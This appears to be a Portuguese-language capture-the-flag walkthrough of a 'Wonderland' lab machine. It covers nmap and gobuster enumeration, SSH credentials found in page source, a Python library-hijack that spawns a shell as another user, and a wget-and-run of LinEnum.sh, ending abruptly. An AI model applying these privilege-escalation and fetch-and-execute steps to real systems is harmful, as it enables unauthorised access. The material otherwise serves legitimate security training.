# Wonderland

nmap -n -T4 -sCV 10.10.204.123

![image](https://github.com/yanfernandess/Wonderland/assets/100174458/4792115a-e5d0-4093-9825-262323aa153e)

Temos duas portas abertas 22(ssh) e 80(http), ja podemos identificar que precisamos descobrir uma credencial para ter acesso a porta ssh. Vamos enumerar o HTTP.

10.10.204.123

![image](https://github.com/yanfernandess/Wonderland/assets/100174458/f4b6910e-a8e4-4882-9038-fb73ad0359da)

Logo após vou rodar um goBuster para descobrir os diretórios.

gobuster dir -u 10.10.204.123 -w /usr/share/wordlists/dirb/common.txt

![image](https://github.com/yanfernandess/Wonderland/assets/100174458/e18bab1b-a12d-45e1-be09-de9fb7114414)

Descobrimos um repositório chamado /r, vamos acessar ele...

![image](https://github.com/yanfernandess/Wonderland/assets/100174458/9a0a0970-3b08-4321-818c-a80b199df5f6)

O repositório só me mostrou uma mensagem dizendo para continuar enumerando, vou rodar outro gobuster mas adicionando /r no final.

gobuster dir -u 10.10.204.123/r -w /usr/share/wordlists/dirb/common.txt

![image](https://github.com/yanfernandess/Wonderland/assets/100174458/d0425998-ca14-4855-b40f-95fee0208740)

Ele me trouxe um repositório /a, vou tentar acesso a ele...

![image](https://github.com/yanfernandess/Wonderland/assets/100174458/1b7936b1-07a3-4e7b-945e-468ce0936029)

Ele me retornou uma página com uma mensagem para continuar enumerando, vou rodar outro gobuster mas adicionando /a no final.

gobuster dir -u 10.10.204.123/r/a -w /usr/share/wordlists/dirb/common.txt

![image](https://github.com/yanfernandess/Wonderland/assets/100174458/613a1753-7c84-40cc-8ef0-8b125254240a)

Ele me trouxe um repositório /b, percebi que ele tinha criado vários repositórios que no final aparece o nome do Coelho(Rabbit).

![image](https://github.com/yanfernandess/Wonderland/assets/100174458/6c1f0de5-ab98-43d7-99ce-454e6c77b15f)

Passei letra por letra até completar o nome e as páginas são iguais com exceção da última.

![image](https://github.com/yanfernandess/Wonderland/assets/100174458/4158373b-e27d-4bbd-b597-dd464951a150)

Só que não tem nada de interessante nesta página só um texto e uma imagem. Então decidi passar página por página utilizando view-source: na url para verificar o código-fonte e identifiquei na última página as credenciais SSH.

![image](https://github.com/yanfernandess/Wonderland/assets/100174458/e6a5d37c-abff-4b23-8bb4-1d7cb1f30de6)

alice:HowDothTheLittleCrocodileImproveHisShiningTail

ssh alice@10.10.204.123

Utilizei o ls -la para verificar o diretórios e encontrei dois arquivos importantes root.txt(sem acesso) e walrus_and_the_carpenter.py

Acessei com sudo -l para conseguir ler o arquivo e nele tinha um poema e uma função que separava 10 versos aleatórios. Elas estavam sendo armazenadas em uma biblioteca chamada random.

python3 -c 'import sys; print (sys.path)'

Descobri também que o arquivo percorre todos os diretórios até encontrar a biblioteca.

Então criei um arquivo aleatório chamado random.py e coloquei o seguinte código.

import os
os.system("/bin/bash")

E logo em seguida executei o script para verificar se minha teoria estava certa.

sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py

E conseguimos acesso a outro usuário.



















![image](https://github.com/yanfernandess/Wonderland/assets/100174458/06a7aae5-14ff-4c14-a907-85d0c0a70d0a)

Descobrimos uma senha.

WhyIsARavenLikeAWritingDesk?

Após esse ponto eu não tinha mais noção do que fazer pois passei por todos personagens do filme e então dei uma pesquisada e o LinEnum.sh ajuda a enumerar mais a fundo. Em uma pesquisa que eu fiz me mostraram que eu deveria executar os seguintes comandos

wget http://10.10.204.123:6969/LinEnum.sh
chmod +x LinEnum. eh
./LinEnum. eh




